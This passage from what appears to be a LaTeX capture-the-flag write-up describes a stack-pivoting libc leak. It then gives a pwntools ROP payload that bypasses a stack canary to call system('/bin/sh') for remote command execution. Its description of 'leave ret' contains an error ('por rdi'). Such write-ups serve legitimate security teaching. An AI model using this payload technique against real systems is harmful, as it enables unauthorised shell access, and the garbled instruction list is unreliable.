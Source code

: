     By doing this, when we go to call the return we will perform a stack pivoting so we will move the stack and we will correctly leak the contents of the libc.\newline
    The call that will allow us to do stack pivoting is the leave ret call that is made every time we exit a function.\newline
    Leave ret executes the following instructions mov rsp,rbp; pop rbp; por rdi;\newline
    Subsequently, we will perform the same attack but instead of leaking libc we will perform remote command execution, following is the code that allowed us to launch this attack.\newline
    \begin{verbatim}
    payload2=flat(
        p64(pop_rdi), #start of the rop 
        p64(binsh+base),#address of bin sh + base
        p64(system+base), #address of system + base
        b'A'*32, #fill the remaining space of the buffer
        p64(real_canary), # send the canary to bypass the canary mitigation
        p64(target_bp2),# send the target base pointer 
    )   
    \end{verbatim}
    We will call as return address a call to system("/bin/sh").\newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=0.5\linewidth]{Images/rce_stack_chall.png}
        \caption{remote coomand execution}
        \label{fig:enter-label}
    \end{figure}
    \newpage